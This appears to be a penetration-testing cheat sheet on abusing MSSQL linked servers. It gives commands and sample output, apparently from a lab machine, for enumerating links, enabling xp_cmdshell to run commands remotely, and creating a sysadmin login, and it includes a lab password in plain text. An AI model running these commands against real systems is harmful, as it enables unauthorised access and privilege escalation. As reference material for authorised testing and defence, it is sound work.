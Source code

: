 ```yaml
---
title: "MSSQL Linked Servers"
date: 2025-7-25
tags: ["Database Dumping", "Privilege Escalation In Databases", "Mssql", "Database", "Windows", "Linked Server"]
---
```


### Enum

{{< tab set1 tab1 >}}SQL{{< /tab >}}
{{< tab set1 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<small>*Hint: Use double '' to escape ' in mssql*</small>

```console
# Show current server
select @@servername
```

```console
# Show linked servers
select srvname from sysservers;
```

```console
# Show linked servers
enum_links
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Enumerate Linked MSSQL Servers

```console
nxc mssql <TARGET> -u '<USER>' -p '<PASSWORD>' --local-auth -M enum_links
```

```console {class="sample-code"}
$ nxc mssql DC.REDELEGATE.VL -u 'SQLGuest' -p 'zDPBpaF4FywlqIv11vii' --local-auth -M enum_links 
MSSQL       10.129.254.242  1433   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl)
MSSQL       10.129.254.242  1433   DC               [+] DC\SQLGuest:zDPBpaF4FywlqIv11vii 
ENUM_LINKS  10.129.254.242  1433   DC               [+] Linked servers found:
ENUM_LINKS  10.129.254.242  1433   DC               [*]   - WIN-Q13O908QBPG\SQLEXPRESS
```

{{< /tabcontent >}}

---

### Execute Query between Linked Servers

{{< tab set2 tab1 >}}SQL{{< /tab >}}
{{< tab set2 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
# Execute query from current server to linked server
EXECUTE ('select @@version;') at [<LINKED_SERVER>];
```

```console
# Execute query from linked server to current server
EXECUTE ('EXECUTE (''SELECT entity_name, permission_name FROM fn_my_permissions(NULL, ''''SERVER'''');'') at [<CURRENT_SERVER>]') at [<LINKED_SERVER>];
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
nxc mssql <TARGET> -u '<USER>' -p '<PASSWORD>' --local-auth -M exec_on_link -o LINKED_SERVER=<LINKED_SERVER> COMMAND=<QUERY>
```

```console {class="sample-code"}
$ nxc mssql DC.REDELEGATE.VL -u 'SQLGuest' -p 'zDPBpaF4FywlqIv11vii' --local-auth -M exec_on_link -o LINKED_SERVER='WIN-Q13O908QBPG' COMMAND='SELECT name FROM sys.server_principals WHERE sid = 01'
[*] Ignore OPSEC in configuration is set and OPSEC unsafe module loaded
MSSQL       10.129.254.242  1433   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl)
MSSQL       10.129.254.242  1433   DC               [+] DC\SQLGuest:zDPBpaF4FywlqIv11vii 
EXEC_ON_... 10.129.254.242  1433   DC               [*] Command output: []
```

{{< /tabcontent >}}

---

### Abuse #1: Execute Shell Commands on the Linked Server

{{< tab set3 tab1 >}}nxc{{< /tab >}}
{{< tabcontent set3 tab1 >}}

#### 1. Enable the CMD Shell on a Linked Server

```console
nxc mssql <TARGET> -u '<USER>' -p '<PASSWORD>' --local-auth -M link_enable_xp -o LINKED_SERVER=<LINKED_SERVER> ACTION=enable
```

```console {class="sample-code"}
$ nxc mssql DC.REDELEGATE.VL -u 'SQLGuest' -p 'zDPBpaF4FywlqIv11vii' --local-auth -M link_enable_xp -o LINKED_SERVER='WIN-Q13O908QBPG' ACTION=enable
[*] Ignore OPSEC in configuration is set and OPSEC unsafe module loaded
MSSQL       10.129.254.242  1433   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl)
MSSQL       10.129.254.242  1433   DC               [+] DC\SQLGuest:zDPBpaF4FywlqIv11vii 
LINK_ENA... 10.129.254.242  1433   DC               [*] Enabling advanced options on WIN-Q13O908QBPG...
LINK_ENA... 10.129.254.242  1433   DC               [*] Enabling xp_cmdshell on WIN-Q13O908QBPG...
LINK_ENA... 10.129.254.242  1433   DC               [*] []
LINK_ENA... 10.129.254.242  1433   DC               [+] xp_cmdshell enabled on WIN-Q13O908QBPG
```

#### 2. RCE

```console
nxc mssql <TARGET> -u '<USER>' -p '<PASSWORD>' --local-auth -M link_xpcmd -o LINKED_SERVER=<LINKED_SERVER> CMD='<CMD>'
```

```console {class="sample-code"}
$ nxc mssql DC.REDELEGATE.VL -u 'SQLGuest' -p 'zDPBpaF4FywlqIv11vii' --local-auth -M link_xpcmd -o LINKED_SERVER='WIN-Q13O908QBPG' CMD='whoami'
[*] Ignore OPSEC in configuration is set and OPSEC unsafe module loaded
MSSQL       10.129.254.242  1433   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl)
MSSQL       10.129.254.242  1433   DC               [+] DC\SQLGuest:zDPBpaF4FywlqIv11vii 
LINK_XPCMD  10.129.254.242  1433   DC               [*] Running command on WIN-Q13O908QBPG: whoami
LINK_XPCMD  10.129.254.242  1433   DC               [+] Command output:
[]
```

{{< /tabcontent >}}

---

### Abuse #2: Create Admin User from Privilege Linked Server

{{< tab set4 tab1 >}}SQL{{< /tab >}}
{{< tabcontent set4 tab1 >}}

```console
EXECUTE('EXECUTE(''CREATE LOGIN <USER> WITH PASSWORD = ''''<PASSWORD>'''';'') AT [<CURRENT_SERVER>]') AT [<LINKED_SERVER>]
```

```console
EXECUTE('EXECUTE(''EXEC sp_addsrvrolemember ''''<USER>'''', ''''sysadmin'''''') AT [<CURRENT_SERVER>]') AT [<LINKED_SERVER>]
```

{{< /tabcontent >}}
